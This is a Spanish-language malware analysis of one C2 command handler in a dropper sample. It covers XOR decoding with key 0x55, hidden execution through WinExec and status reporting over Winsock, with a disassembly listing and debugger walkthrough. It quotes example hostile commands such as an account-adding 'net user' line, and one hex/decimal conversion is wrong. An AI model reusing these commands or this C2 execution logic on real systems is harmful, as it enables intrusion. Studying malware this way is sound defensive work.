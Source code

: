 # FUN_00402050 - Opcode 3

La función FUN_00402050 es el funcionamiento típico de un dropper / downloader:
- Decodifica un buffer de 256 bytes (0x100) usando XOR 0x55.
- Intenta ejecutar ese buffer como comando con WinExec().
- WinExec es una API antigua de Windows que ejecuta comandos o aplicaciones con nombre, sin redirección de consola.
- Reporta el resultado al servidor C2, dependiendo de si la ejecución fue exitosa o no.

## Análisis paso a paso:

### 1. Inicialización:
- `MOV ECX, dword ptr [ESP + param_2]`: Carga en el registro ECX la dirección de memoria de una cadena de caracteres (el segundo parámetro de la función). Esta cadena está actualmente cifrada.
- `XOR EAX, EAX`: Pone a cero el registro `EAX`, que se usará como contador del bucle.

### 2. Bucle de decodificación (LAB_00402056):
- El bucle se ejecuta 256 veces (desde `EAX=0` hasta `EAX=0xFF`, ya que `CMP EAX`, `0x100 y JL` significa "saltar si es menor").
- `MOV DL, byte ptr [EAX + ECX*0x1]`: Coge un byte de la cadena cifrada.
- `XOR DL, 0x55`: Esta es la clave. Realiza una operación XOR entre el byte del malware y la clave estática 0x55. Esta es una técnica de cifrado simétrico muy simple y común.
- `MOV byte ptr [EAX + ECX*0x1]`, DL: Sobrescribe el byte cifrado original con el nuevo byte decodificado.
- `INC EAX`: Incrementa el contador para pasar al siguiente byte.

### 3. Ejecución del comando:
- `PUSH 0x0 y PUSH ECX`: Prepara los argumentos para la función `WinExec`. `ECX` ahora apunta a la cadena recién decodificada y `0x0 (SW_HIDE)` le dice a Windows que ejecute el comando en una ventana oculta.
- `CALL dword ptr [->KERNEL32.DLL::WinExec]`: Llama a la función `WinExec` de la API de Windows, que ejecuta la cadena decodificada. Esta cadena podría ser cualquier cosa, como `"calc.exe", "cmd.exe /c net user admin pass /add"` o una ruta a otro malware.

### 4. Comprobación y acción secundaria:
- `CMP EAX, 0x1f`: Comprueba el valor de retorno de `WinExec`. Un valor mayor que `31 (0x1f) significa que la ejecución fue exitosa.
- Si la ejecución no fue exitosa (JLE salta si es menor o igual), el código llama a una función de la librería de sockets de Windows (`WS2_32.DLL`). Esto sugiere que si no puede ejecutar el comando local, podría intentar realizar una acción de red, como conectarse a un servidor de Comando y Control (C2) para reportar el error o descargar otra carga útil.


## Resumiendo
El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).



# Análisis dinámico de Opcode 3

## Listener en python para poder probar este opcode
[listener-opcode3.py](../analisis-dinamico/listener-opcode-3.py)

Probaremos un listener que envía un buffer de 256 bytes (0x100) usando XOR 0x55.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode3.py
```


## Inicio de función (0x00402050)
- Ver qué dirección llega en param_2 (→ contiene el comando XOReado).
- Nos permite hacer Follow in Dump → Address ECX para ver el buffer antes de descifrarlo.  
![Inicio Funcion](../analisis-dinamico/capturas/00402050-opcode3.png)

## Dentro del bucle XOR (0x00402056)
- Avanzamos en el bucle hasta que salga del bucle (0x00402065 → JNZ) → comparamos el buffer antes/después del XOR.  
![Fin del bucle XOR](../analisis-dinamico/capturas/00402056-opcode3.png)


## Antes de WinExec (0x0040206A)
- Aquí ECX apunta ya a la cadena descifrada (ej. "calc.exe" o el comando que el C2 ordena ejecutar).
- Hacemos Follow in Dump → ECX para ver el comando en claro.
![Fin del bucle XOR](../analisis-dinamico/capturas/0040206A-opcode3.png)

# Después de WinExec (0x00402070)
- EAX contiene el código de retorno de WinExec.
- Si EAX > 0x1F → ejecución exitosa, salta a enviar resultado con send.
- Si no, cae en el branch de error (0x00402077).

![Después de WinExec](../analisis-dinamico/capturas/00402070-opcode3.png)
```
00402070   cmp eax, 1Fh      ; compara retorno de WinExec con 0x1F (31 decimal)
00402073   push 0
00402075   push 2
00402077   jle 0040208A       ; salto si eax <= 0x1F
```
WinExec devuelve:
- `> 31 (0x1F)` → ejecución exitosa (devuelve un handle válido).
- `≤ 31 → error`, el valor es un código de error.

En la captura:
- EAX = 0x21 → 33 decimal.
- 33 es mayor que 31 (0x1F).
- Por tanto, la comparación en cmp eax, 1Fh → NO cumple la condición del salto jle.
- Resultado: no se ejecuta el salto a 0x0040208A → caemoss en la rama de éxito (0x00402079 → send con el buffer correcto).





## Llamada a send (0x00402083)
- Si hubo éxito, aquí podemos ver lo que reporta al C2.
- El argumento [esp+8] es el buffer con la info que manda.  
![Llamada a send](../analisis-dinamico/capturas/00402083-opcode3.png)


## Desde el Host C2
![opcode-3-2](../analisis-dinamico/capturas/opcode3-2.png)


_____________________________________________________________
```
        00402043 90 90 90        align      align(13)
                 90 90 90 
                 90 90 90 
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402050(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402050(R)  
                             FUN_00402050                                    XREF[1]:     FUN_004012f0:00401740(c)  
        00402050 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402054 33 c0           XOR        EAX,EAX
                             LAB_00402056                                    XREF[1]:     00402065(j)  
        00402056 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        00402059 80 f2 55        XOR        DL,0x55
        0040205c 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        0040205f 40              INC        EAX
        00402060 3d 00 01        CMP        EAX,0x100
                 00 00
        00402065 7c ef           JL         LAB_00402056
        00402067 6a 00           PUSH       0x0
        00402069 51              PUSH       ECX
        0040206a ff 15 30        CALL       dword ptr [->KERNEL32.DLL::WinExec]              = 0000990a
                 90 40 00
        00402070 83 f8 1f        CMP        EAX,0x1f
        00402073 6a 00           PUSH       0x0
        00402075 6a 02           PUSH       0x2
        00402077 7e 11           JLE        LAB_0040208a
        00402079 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        0040207d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402082 50              PUSH       EAX
        00402083 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402089 c3              RET
```

